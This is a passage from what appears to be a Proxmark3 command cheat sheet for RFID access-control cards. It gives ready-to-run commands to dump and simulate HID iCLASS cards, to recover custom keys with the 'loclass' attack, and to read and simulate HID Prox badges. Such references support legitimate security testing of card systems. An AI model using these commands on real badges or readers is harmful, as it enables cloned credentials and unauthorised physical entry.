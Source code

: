 Simulate iCLASS Sequence
```
pm3 --> hf iclass dump --ki 0
pm3 --> hf iclass eload -f hf-iclass-db883702f8ff12e0.bin
pm3 --> hf iclass sim -t 3
```

Extract custom iCLASS key (loclass attack)
```
Options
---
-f <filename>                  specify a filename to clone from
-k <key>                       Access Key as 16 hex symbols or 1 hex to select key from memory
    --elite                    Elite computations applied to key

pm3 --> hf iclass sim -t 2
pm3 --> hf iclass loclass -f iclass_mac_attack.bin
pm3 --> hf iclass managekeys --ki 7 -k <Kcus>
pm3 --> hf iclass dump --ki 7 --elite
```

Verify custom iCLASS key
```
options
---
-f, --file <filename>          Dictionary file with default iclass keys
    --csn <hex>                Specify CSN as 8 bytes (16 hex symbols)
    --epurse <hex>             Specify ePurse as 8 bytes (16 hex symbols)
    --macs <hex>               MACs
    --raw                      no computations applied to key (raw)
    --elite                    Elite computations applied to key

pm3 --> hf iclass lookup --csn 010a0ffff7ff12e0 --epurse feffffffffffffff --macs 66348979153c41b9 -f iclass_default_keys --elite
```

## HID_Prox

HID cards, also called prox cards, proximity cards & access control cards, are cards that use RFID embedded technology. HID card readers are used in access control systems to open doors.

Read HID Prox card
```
pm3 --> lf hid read
```

Demodulate HID Prox card
```
pm3 --> lf hid demod
```

Simulate Prox card
```

pm3 --> lf hid sim -r 200670012d
pm3 --> lf hid sim -w H10301 --fc 10 --cn 1337
```
